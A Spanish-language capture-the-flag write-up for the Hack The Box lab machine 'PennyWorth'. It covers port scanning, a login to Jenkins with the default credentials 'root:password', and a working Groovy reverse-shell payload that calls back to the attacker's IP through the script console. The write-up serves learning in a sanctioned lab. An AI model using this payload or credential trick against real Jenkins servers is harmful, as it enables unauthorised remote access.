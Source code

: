 ```yaml
---
title: PennyWorth
layout: page
permalink: /PennyWorth
---
```


<h2 class="titulo-principal">PennyWorth</h2>
<div id="imgs" style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/pennyworth.png" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la máquina y obtenemos la dirección IP 10.129.245.27, le enviaremos un paquete con ping para saber si la máquina está encendida.

```bash
❯ ping -c 5 10.129.245.27
PING 10.129.245.27 (10.129.245.27) 56(84) bytes of data.
64 bytes from 10.129.245.27: icmp_seq=1 ttl=63 time=1204 ms
64 bytes from 10.129.245.27: icmp_seq=2 ttl=63 time=286 ms
64 bytes from 10.129.245.27: icmp_seq=3 ttl=63 time=120 ms
64 bytes from 10.129.245.27: icmp_seq=4 ttl=63 time=120 ms
64 bytes from 10.129.245.27: icmp_seq=5 ttl=63 time=1865 ms
--- 10.129.245.27 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4040ms
rtt min/avg/max/mdev = 120.039/719.062/1864.712/700.349 ms, pipe 2
```

Vemos un TTL de 63, así que estamos frente a una máquina Linux.
<h2 class="titulo-principal">Enumeración</h2>

Comenzamos haciendo un escaneo rápido y sigiloso usando nmap para enumerar todo el rango de puertos en busca de servicios expuestos:

```bash
nmap -p --open -sS --min-rate 5000 -vvv -n -Pn 10.129.245.27 -oG allPorts
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/namp.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un único puerto abierto `8080` que lo normal es que sea un servicio web. Para saber un poco más de información lanzamos un escaneo exhaustivo para identificar la versión y servicio con nmap para este puerto usando una serie de scripts básicos de reconocimiento:

```bash
nmap -sCV -p8080 10.129.245.27 -oN targeted
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/nmap2.png" alt="under" oncontextmenu="return false;">
</div>

No hay mucha información, pero siempre viene bien probar con la herramienta `whatweb`

```bash
whatweb 10.129.245.27:8080
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/whatweb.png" alt="under" oncontextmenu="return false;">
</div>

<h2 class="titulo-principal">Explotación</h2>

Whatweb nos revela información más interesante como `Jenkins 2.289.1` , `Jetty 9.4.39.v20210325` y una ruta 'login?from=2F'. Así que probamos acceder a la web:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web.png" alt="under" oncontextmenu="return false;">
</div>

Por defecto nos va a decir error ya que debemos proporcionar el puerto `8080` en la URL.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web2.png" alt="under" oncontextmenu="return false;">
</div>

Aun proporcionando el puerto donde esta el servicio web tenemos problemas, entonces pondremos la URL encontrada por whatweb.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/login.png" alt="under" oncontextmenu="return false;">
</div>

Nos encontramos con un panel de Login, y al saber ya la version y servicio ejecutados en la máquina encontramos que tiene unas cuantas vulnerabilidades.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/jetty.png" alt="under" oncontextmenu="return false;">
</div>

Dentro de estas se encuentra que las credenciales del panel de Login es 'root:password'.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/intrusionweb.png" alt="under" oncontextmenu="return false;">
</div>

Una vez logueados encontramos `Groovy Script` y que podemos escribir nuestros propios códigos.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/intrusionweb2.png" alt="under" oncontextmenu="return false;">
</div>

En el siguiente <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">enlace</a> podemos encontrar algunos payloads:

**Groovy Payload**
```groovy
String host="10.10.16.84";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());whi
le(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/web3.png" alt="under" oncontextmenu="return false;">
</div>

Podemos ver que los payloads son ejecutados por el Administrator y los ejecuta el Servidor. Probamos a cargar nuestro payload:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/revshell.png" alt="under" oncontextmenu="return false;">
</div>

Y nos ponemos en escucha con `nc` y recibimos una shell:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/metidos.png" alt="under" oncontextmenu="return false;">
</div>

Buscamos la flag y habremos completado la máquina.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/flag.png" alt="under" oncontextmenu="return false;">
</div>
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/PennyWorth/pwn.png" alt="under" oncontextmenu="return false;">
</div>
---

Esta publicación ha sido creada como soporte en mi formación académica y crecimiento profesional.

© Juan David Garcia Acevedo (aka liandd)
